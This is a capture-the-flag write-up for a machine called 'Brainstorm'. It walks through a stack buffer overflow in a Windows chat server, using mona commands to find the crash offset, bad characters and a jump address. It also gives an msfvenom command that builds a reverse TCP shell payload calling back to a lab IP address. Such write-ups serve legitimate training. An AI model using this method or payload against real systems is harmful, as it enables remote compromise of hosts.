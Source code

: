 # Brainstorm

Nmap scan reveals ftp service with anonymous access enabled. The ftp directory contains the 
chatserver PE and essfunc.dll.

Running the chatserver with Immunity Debugger and connecting shows 2 potential inputs to 
overflow, name and message.

Name is cut off at 20 characters but message is vulnerable and will crash at 2100 bytes

Using the Metasploit tool pattern_create.rb, create cyclic values 400 bytes longer than 
the crash value and set the payload variable with the output in exploit.py. Execute the 
exploit and use mona to find the EIP offset.

Set the offset value in exploit.py and set the retn variable to "BBBB" (42424242) to check 
if the EIP is overwritten correctly.

Next step is to check for badchars by generating a bytearray with mona, excluding the 
nullbyte:

`!mona bytearray -cpb "\x00"`

And sending a payload of badchars excluding the nullbyte:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Verify remaining badchars with mona:

`!mona compare -f c:\mona\bytearray.bin -a esp`

Find a jump point excluding the bad chars and set retn with the address:

`!mona jmp -r esp -cpb "\x00"`

Generate the payload with msfvenom and set the payload variable with the returned code

`msfvenom -p windows/reverse_tcp LHOST=10.10.1.11 LPORT=4444 EXITFUNC=thread -b "\x00" -f python -e x86/shikata_ga_nai`

Fuzzing crashes at: 2100 bytes

EIP offset: 2012

Bad chars: \x00

[exploit.py](./exploit.py)

Run exploit.py to gain a remote shell on the target
